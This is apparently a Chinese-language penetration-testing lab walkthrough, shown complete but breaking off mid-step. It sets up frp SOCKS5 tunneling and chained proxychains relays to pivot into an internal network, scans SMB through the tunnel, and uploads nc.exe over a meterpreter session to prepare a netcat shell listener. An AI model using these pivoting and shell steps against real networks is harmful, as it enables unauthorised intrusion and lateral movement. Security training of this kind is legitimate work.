 ```
[root@CentOS-76 hello]# ./frps -c /tmp/hello/frps.ini
```

配置 Windows Frpc

```
[common]
server_addr = 192.168.4.76
server_port = 7000

[socks5_8888]
type = tcp
remote_port = 8888
plugin = socks5
use_encryption = true
use_compression = true
```

启动 Windows Frpc

```
C:\Users\windows\Desktop\frp_0.49.0_windows_amd64>frpc.exe -c frpc.ini
```

配置二级代理

```
┌──(root㉿Kali-24)-[~]
└─# vim /etc/proxychains4.conf
```

在最下方配置新的代理

```
socks5 123.56.167.168 9999
socks5 192.168.4.76 8888
```

> 注意顺序不能颠倒。

扫描 Windows-2 端口

```
┌──(root㉿Kali-24)-[~]
└─# nmap -Pn -sT -p 445 192.168.9.102
```

> 成功代理，可对 Windows-2 渗透。

拿到 shell 后将 nc.exe上传到 Windows-2

```
meterpreter > upload /usr/share/windows-binaries/nc.exe c:\\
```

> 通常 frp 内网穿透用 nc 做实验会比较方便一些，msf 利用的话有一些不可控因素，比如 exp 是否执行成功。无法通过 MSF 验证的建议使用 nc

> Kali 中 nc 位置：/usr/share/windows-binaries/nc.exe

在 Windows-2 运行 nc 侦听 443 端口
